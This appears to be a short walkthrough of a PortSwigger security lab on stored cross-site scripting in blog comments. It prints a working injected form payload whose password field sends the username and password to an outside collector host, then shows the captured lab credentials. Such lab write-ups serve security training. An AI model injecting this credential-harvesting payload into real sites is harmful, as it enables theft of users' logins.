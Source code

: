 # Exploiting cross-site scripting to capture passwords

## This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

### HINT:

```JAVAscript
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

copy url from burp collector
`ep75t4w1tercstb86rqmfggttkzbn1bq.oastify.com`

```javascript
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://ep75t4w1tercstb86rqmfggttkzbn1bq.oastify.com',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

go to burp collector click on pull now and click on http
administrator:a2c2v3g6cpcxjowbulv6

login and lab solved
